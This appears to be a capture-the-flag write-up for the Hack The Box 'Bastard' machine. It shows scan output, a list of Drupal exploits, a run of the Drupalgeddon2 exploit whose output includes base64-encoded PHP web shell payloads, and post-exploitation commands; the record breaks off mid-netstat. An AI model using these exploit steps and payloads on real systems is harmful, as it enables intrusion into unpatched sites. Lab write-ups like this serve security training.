



<head>
<link href="css/retro.css" rel="stylesheet"></link> 
</head>

## HTB-Bastard (10.10.10.9)
----
### Summary


Additonal resources/reading:
* [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html)
* [MSFVENOM](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)
* [Privilege Escalation](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)
* [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

---
### Scanning/Enumeration
---
#### nmap 
```
nmap -T4 -A 10.10.10.9

Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-22 06:23 MST
Nmap scan report for 10.10.10.9
Host is up (0.060s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   63.02 ms 10.10.14.1
2   63.71 ms 10.10.10.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP ad  
```
#### nikto
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.9
+ Target Hostname:    10.10.10.9
+ Target Port:        80
+ Start Time:         2020-02-22 06:30:59 (GMT-7)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/7.5
+ Retrieved x-powered-by header: ASP.NET
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-generator' found, with contents: Drupal 7 (http://drupal.org)
+ Entry '/INSTALL.mysql.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/INSTALL.pgsql.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/INSTALL.sqlite.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/install.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/LICENSE.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/MAINTAINERS.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/UPGRADE.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/xmlrpc.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/filter/tips/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/user/register/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/user/password/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/user/login/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/?q=comment/reply/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/?q=filter/tips/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/?q=user/password/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/?q=user/register/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/?q=user/login/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 68 entries which should be manually viewed.
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
```
#### http 
http://10.10.10.9 (home page with wappalyzer output)


* IIS / 7.5
* PHP 5.3.28
* Drupal 7

http://10.10.10.9/user/register


http://10.10.10.9/user/password


http://10.10.10.9/robots.txt
```#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html

User-agent: *
Crawl-delay: 10
# CSS, JS, Images
Allow: /misc/*.css$
Allow: /misc/*.css?
Allow: /misc/*.js$
Allow: /misc/*.js?
Allow: /misc/*.gif
Allow: /misc/*.jpg
Allow: /misc/*.jpeg
Allow: /misc/*.png
Allow: /modules/*.css$
Allow: /modules/*.css?
Allow: /modules/*.js$
Allow: /modules/*.js?
Allow: /modules/*.gif
Allow: /modules/*.jpg
Allow: /modules/*.jpeg
Allow: /modules/*.png
Allow: /profiles/*.css$
Allow: /profiles/*.css?
Allow: /profiles/*.js$
Allow: /profiles/*.js?
Allow: /profiles/*.gif
Allow: /profiles/*.jpg
Allow: /profiles/*.jpeg
Allow: /profiles/*.png
Allow: /themes/*.css$
Allow: /themes/*.css?
Allow: /themes/*.js$
Allow: /themes/*.js?
Allow: /themes/*.gif
Allow: /themes/*.jpg
Allow: /themes/*.jpeg
Allow: /themes/*.png
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

### Vulnerabilities

List of potential vulnerabilites to consider:

---
```
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities  | exploits/windows/remote/19033.txt
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)             | exploits/php/webapps/34992.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)              | exploits/php/webapps/44355.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)   | exploits/php/webapps/34984.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)   | exploits/php/webapps/34993.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)      | exploits/php/webapps/35150.php
Drupal 7.12 - Multiple Vulnerabilities                                        | exploits/php/webapps/18564.txt
Drupal 7.x Module Services - Remote Code Execution                            | exploits/php/webapps/41564.php
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)      | exploits/php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)   | exploits/php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Exe | exploits/php/webapps/44449.rb

MS03-026 Microsoft RPC DCOM Interface Overflow
https://www.rapid7.com/db/modules/exploit/windows/dcerpc/ms03_026_dcom

Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
https://www.exploit-db.com/exploits/44449

```
### Exploits 
---

#### 1. Get a shell on the target system
Download and run the https://www.exploit-db.com/exploits/44449 script. Notice that we get a local shell as the 'nt authority\iusr' user. We would need to enumerate the target system and acquire escalated privileges.

```
ruby drupalgeddon2 http://10.10.10.9
ruby: warning: shebang line ending with \r may cause problems
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo SKSZPRNP
[+] Result : SKSZPRNP
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.9/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> dir
Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of C:\inetpub\drupal-7.54

19/03/2017  08:04 ??    <DIR>          .
19/03/2017  08:04 ??    <DIR>          ..
19/03/2017  12:42 ??               317 .editorconfig
19/03/2017  12:42 ??               174 .gitignore
19/03/2017  12:42 ??             5.969 .htaccess
19/03/2017  12:42 ??             6.604 authorize.php
19/03/2017  12:42 ??           110.781 CHANGELOG.txt
19/03/2017  12:42 ??             1.481 COPYRIGHT.txt
19/03/2017  12:42 ??               720 cron.php
19/03/2017  12:43 ??    <DIR>          includes
19/03/2017  12:42 ??               529 index.php
19/03/2017  12:42 ??             1.717 INSTALL.mysql.txt
19/03/2017  12:42 ??             1.874 INSTALL.pgsql.txt
19/03/2017  12:42 ??               703 install.php
19/03/2017  12:42 ??             1.298 INSTALL.sqlite.txt
19/03/2017  12:42 ??            17.995 INSTALL.txt
19/03/2017  12:42 ??            18.092 LICENSE.txt
19/03/2017  12:42 ??             8.710 MAINTAINERS.txt
19/03/2017  12:43 ??    <DIR>          misc
19/03/2017  12:43 ??    <DIR>          modules
19/03/2017  12:43 ??    <DIR>          profiles
19/03/2017  12:42 ??             5.382 README.txt
19/03/2017  12:42 ??             2.189 robots.txt
19/03/2017  12:43 ??    <DIR>          scripts
19/03/2017  12:43 ??    <DIR>          sites
19/03/2017  12:43 ??    <DIR>          themes
19/03/2017  12:42 ??            19.986 update.php
19/03/2017  12:42 ??            10.123 UPGRADE.txt
19/03/2017  12:42 ??             2.200 web.config
19/03/2017  12:42 ??               417 xmlrpc.php
              21 File(s)        217.261 bytes
               9 Dir(s)  30.807.310.336 bytes free
drupalgeddon2>> systeminfo
Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00496-001-0001283-84782
Original Install Date:     18/3/2017, 7:04:46 ??
System Boot Time:          22/2/2020, 3:14:40 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.552 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.563 MB
Virtual Memory: In Use:    532 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
drupalgeddon2>> hostname
Bastard
drupalgeddon2>> net users

drupalgeddon2>> netsh firewall show state
Firewall status:
-------------------------------------------------------------------
Profile                           = Standard
Operational mode                  = Enable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Disable
Group policy version              = Windows Firewall
Remote admin mode                 = Disable

Ports currently open on all network interfaces:
Port   Protocol  Version  Program
--------------------------------------------------------------
drupalgeddon2>> netstat -ano
Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:81             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       668
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       1068
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       372
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       752
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       800
  TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING       480
  TCP    0.0.0.0:49156          0.0.0.0:0              LISTENING       496
  TCP    10.10.10.9:80          10.10.14.3:54038       ESTABLISHED     4
  TCP    10.10.10.9:80          10.10.14.3:54477       TIME_WAIT       0
  TCP    10.10.10.9:80          10.10.14.3:54478       ESTABLISHED     4
  TCP    10.10.10.9:139         0.0.0.0:0              LISTENING       4
  TCP    127.0.0.1:3306         127.0.0.1:59581        ESTABLISHED     1068
  TCP    127.0.0.1:3306         127.0.0.1:61404        TIME_WAIT       0
  TCP    127.0.0.1:3306         127.0.0.1:61412        TIME_WAIT       0
  TCP    127.0.0.1:3306         127.0.0.1:61426        TIME_WAIT       0
  TCP    127.0.0.1:3306         127.0.0.1:61436        TIME_WAIT       0
  TCP    127.0.0.1:3306         127.0.0.1:61448        TIME_WAIT       0
  TCP    127.0.0.1:3306         127.0.0.1:61570        TIME_WAIT       0
  TCP    127.0.0.1:3306         127.0.0.1:61600        TIME_WAIT       0
  TCP    127.0.0.1:3306         127.0.0.1:61609        ESTABLISHED     1068
  TCP    127.0.0.1:59581        127.0.0.1:3306         ESTABLISHED     2260
  TCP    127.0.0.1:61404        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61406        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61408        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61410        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61412        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61414        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61416        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61418        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61420        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61422        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61424        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61426        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61428        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61430        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61432        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61434        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61436        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61438        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61440        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61442        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61444        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61446        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61448        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61450        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61452        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61454        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61456        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61458        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61460        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61462        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61464        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61466        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61468        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61470        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61472        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61474        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61476        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61478        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61480        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61482        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61484        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61486        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61488        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61490        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61492        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61494        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61496        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61498        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61500        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61502        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61504        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61506        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61508        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61510        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61512        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61514        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61516        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61518        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61520        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61522        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61524        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61526        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61528        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61530        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61532        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61534        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61536        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61538        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61540        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61542        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61544        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61546        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61548        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61550        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61552        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61554        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61556        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61558        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61560        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61562        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61564        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61566        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61568        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61570        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61572        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61574        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61576        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61578        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61580        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61582        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61584        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61586        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61588        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61590        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61592        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61594        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61596        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61598        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61600        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61603        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61605        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61606        127.0.0.1:3306         TIME_WAIT       0
  TCP    127.0.0.1:61609        127.0.0.1:3306         ESTABLISHED     2384
  TCP    127.0.0.1:61610        127.0.0.1:3306         TIME_WAIT       0
  TCP    [::]:80                [::]:0                 LISTENING       4
